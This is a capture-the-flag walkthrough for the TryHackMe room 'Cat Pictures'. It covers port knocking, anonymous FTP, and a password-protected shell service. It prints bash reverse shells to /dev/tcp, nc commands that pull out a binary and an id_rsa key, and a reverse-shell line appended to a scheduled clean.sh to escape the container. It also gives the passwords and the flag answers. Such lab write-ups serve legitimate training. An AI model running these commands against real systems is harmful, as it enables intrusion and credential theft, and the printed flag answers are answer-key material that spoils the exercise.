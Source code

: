 # [Cat Pictures](https://tryhackme.com/room/catpictures)

> I made a forum where you can post cute cat pictures!

## Scanning

scan the machine

```
nmap -sS -sV -T4 10.10.200.77
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f9b42488-347d-42c2-b2de-132bd1da2c9b)

oke, we have 3 open ports (21, 22, 8080)

## HTTP (optional)

let's check the webpage at port 8080

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/24e50af1-ba5d-4af0-8035-95cfd93e9223)

cool, we have a forum and login form... and a post

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7d1622cb-8abd-494b-aad8-5b134a19ae7e)

i see a post say we need "knock 4 ports", this term is new for me

## Enumeration

so let's knock port using knock command

```
sudo apt install knockd
knock 10.10.200.77 1111 2222 3333 4444
```

so let's run scan again

```
nmap -sS -sV -sC -T4 10.10.200.77
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a19735d7-38a1-4458-8a89-df5f3c0e0b24)

now, you will see port 21 is open allowed anonymous login

```
ftp 10.10.200.77
ls
get note.txt
exit
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/caa4b5d5-5d7b-47b4-a458-97dc895f5fc3)

so we have a message that there is a internal shell service server on port 4420 with password `sardinethecat`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8c5b6468-a0e4-4825-a545-127e0a353979)

## Exploitation

now, we can use nc to connect to server

```
nc 10.10.200.77 4420
sardinethecat
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b9b664c6-4869-4315-acee-bcdd9b7a37d0)

we are in very restrictive shell "please note: cd commands do not work at the moment, the developers are fixing it at the moment."

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b7995415-4fd5-4c0c-9a2a-34274a07800d)

well a lot restric here

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ef85692c-ea14-4174-ae1e-235235999db8)

so open a reverse shell to our machine

```
nc -vlnp 1234
```

```
bash -c 'bash -i >& /dev/tcp/10.18.37.45/1234 0>&1'
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b8694eb8-e8c6-48d4-aac4-fcb13a21d278)

try to run the excutable, it required a password

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e56110ab-11df-45b5-8adc-2ff72962064e)

to break out this restric shell, we need download the file to our machine

```
# our machine
nc -lvnp 1235 > runme
# target machine
nc 10.18.37.45 1235 < /home/catlover/runme
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5f50349c-2dc7-4a9b-9079-a13ba5845a5e)

```
strings runme
```

so the password is `rebecca`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3bcab0f5-e690-469d-8374-2d2c1cd87214)

After running runme, a new file id_rsa is created in /home/catlover

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e978afdc-bd36-45b0-9e1a-5ab32f345ba4)

so collect the id_rsa to our machine

```
# our machine
nc -lvnp 1235 > id_rsa
# target machine
nc 10.18.37.45 1235 < /home/catlover/id_rsa
```

so we can connect ssh using private key

```
chmod 600 id_rsa
ssh -i id_rsa catlover@10.10.200.77
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e56f76a7-4e0c-41b4-887d-58ad3c1ed44a)

cool we got root

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/2e554eda-6e52-4148-adcd-f070d995a25a)

| Flag | flag.txt |
| --- | --- |
| Answer | 7cf90a0e7c5d25f1a827d3efe6fe4d0edd63cca9 |

## Privilege Escalation

we are current root, so escalate what? probably we have to escape the docker container

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/15f89000-247b-4b6d-b423-6481d233a918)

```
cat .bash_history
```

i found a clean script

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c6dbde47-3479-44fa-9caa-980fc3c77220)

so reverse shell again

```
nc -vlnp 1234
```

```
echo 'bash -i >&/dev/tcp/10.18.37.45/1234 <&1' >> /opt/clean/clean.sh
```

here you are

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8f5b8693-0063-482b-89aa-444b2862b877)

| Flag | root.txt |
| --- | --- |
| Answer | 4a98e43d78bab283938a06f38d2ca3a3c53f0476 |
